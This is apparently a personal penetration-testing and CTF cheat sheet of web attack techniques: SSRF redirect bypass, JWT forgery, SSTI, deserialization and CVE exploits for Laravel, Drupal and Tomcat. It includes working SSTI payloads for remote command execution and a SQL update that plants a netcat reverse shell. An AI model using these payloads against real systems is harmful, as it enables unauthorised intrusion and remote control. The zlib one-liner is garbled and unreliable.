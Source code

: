 ## Git related stuff

1. `git log "some file"` to get its hit history along with the hash of the commit
2. `git diff "hash1" "hash2" "some file"` to get the differences of the content of the file in between those 2 commits

Note: The hash is nothing but a file path in the object directory which is the compressed version of the target file, encoded as first 2 chars is the parent directory and the rest is the file path. For eg:- if 583aa7debb21f1b5bd6a0316e40d8df102fa1322 is a commit hash then we can go to .git/objects/58/3aa7debb21f1b5bd6a0316e40d8df102fa1322 to get compressed version of the file, which we can then decompress using this python onliner `import zlib;print(zlib.decompress(open('').read("FILENAME")));`, FILENAME being the file where we have saved the compressed version of the file taken from the objects directory

## Execute after Read
If we have a page which gives a 302 and redirects us to another page, and doesnt have a die(); in its php, then even though our browser will redirect to the location specified in the header by reading 302 code but with an interceptor like burp we can get the contents of the entire current file, which could reveal info, like URL's n stuff. Andf if we want to render that page in the browser then we can intercept the response too from burp, and change the 302 found to a 200 OK and our browser will render it

## If we can confirm an SSRF and want to access internal services like any internal webapp, or internal ftp service but cant due to blacklistings
Then we can host a 301 redirctor link to the director here: https://gist.github.com/TheHackerDev/853b17e9f03c6d5a1cebd9556327e94c. Using this, we can make the server GET our page (which isnt blocked by the blacklist) which will redirect it to localhost, or any other website of our choice.

## If we have a node.js app and it uses pug js and flat js we can do an AST prototype pollution
This attack can be performed else where too, just that we know too little about it for now, to make it work else where, more on this in here https://blog.p6.is/AST-Injection/

## If we have a laravel app
### If the version is through 5.5.40 and 5.6.x through 5.6.29
If we have its base64 encoded APP_KEY then we can use this https://github.com/AlienX2001/better-poc-for-CVE-2018-15133 to get an rce on the machine

## In case of an adminer instance
https://infosecwriteups.com/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f

## for drupal CMS
### If we engage with drupal CMS including 8.5 prior to 8.5.1, 7.x prior to 7.58 and all version of Drupal 6.
Then we can use drupalgeddon2.0 exploit

## If via burp or from the page source analysis we see that the webapp is working with xml
Then we can check for xxe, more on that here https://portswigger.net/web-security/xxe and https://www.synack.com/blog/a-deep-dive-into-xxe-injection/

## If we are working with JWT
If we somehow get a hold of the algorithm key, if its using HS256/RS256 algorithm then we can craft our own jwt signed with the leaked key to get access
If we see that the key is getting imported from a remote location and if we can somehow change that parameter, then we can put our own server in there and then sign the jwts from our own server's key and still get access to sensitive info

## If we manage to get hold of the aws dynamoDB js shell
We can use the templates and extract information about the DB and use those in the aws cli to get code exec

## In support portals if we get email addresses to contact to
Then we might be able to leverage that to get private emails as was with the case with HTB's delivery box, can refer writeups of the same to know more

## We can also find for SSTI
1. For python webapps(flask/jinja2), we can put in `{{request.application.__globals__.__builtins__.__import__('os').popen('CMD').read()}}` to get RCE

2. For noedjs webapps(pugjs), we can put in `#{global.process.mainModule.constructor._load("child_process").exec("CMD+>+static/css/main.css",(err,stdout,stderr)=>{(console.log(stdout))})}` to get RCE, here we redirect the output to a file which we can access via the webapp because the output of the execution will get reflected in the console, which we do not have access to, so it is better to redirect the output to a file which we can reload to get our info

## If we are running an apache tomcat 
### If they are any of the following Apache Tomcat 10.x < 10.0.0-M5, Apache Tomcat 9.x < 9.0.35, Apache Tomcat 8.x < 8.5.55. Apache Tomcat 7.x < 7.0.104
Then we can follow through this blog to get RCE https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/ and we can use ysoserial to get our serialized payload. To transfer non text stuff from terminal to burp, its best to print out non text's base64 string, copy that to burp and then decode, that way there will be no corruption of bits
#### PS: php also has a deserialization bug like java applets

## If we have a wp page
Then we can use wpscan to scan through the plugins and other stuff. Usually wp plugins tend to be vulnerable since they are 3rd party made

## For getting OS cmd shell from sql
If we have MSSQL, with right perms we can use xp_cmdshell to get os cmd exec
If we have Mysql, with right perms we can use the following payload to get os cmd exe `update settings set value='mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f' where name='path_php_binary';-- -`, we exploited this in some version of cacti, which can be found here https://github.com/Cacti/cacti/issues/3622, but this might be exploitable in other environments

## We can also use the --eval flag of burp to dynamically change the payload by python scripts, and directly ysing the param vars as vars in the python oneliner
## If we have the manager-script role with a user in apache tomcat then we can upload a war file and get a reverse shell
## If we have RCE via any webapp, but quotes, / doesnt work then to pass commands with spaces we can use \`"Commmand here"\`, this may not give output, since it will treat the output of the command entered as a command, but since since it evaluates the <Command here>, hence we can use this to get access, even rev shells, An example: \`cat /flagfTXY4 > something\`

## Some misc notes
1. Once we also got an instance where, in a POST request, we could double submit a parameter to the server by adding the parameter in the cookies as well as the data of the POST request
2. svn is also very much like git cli
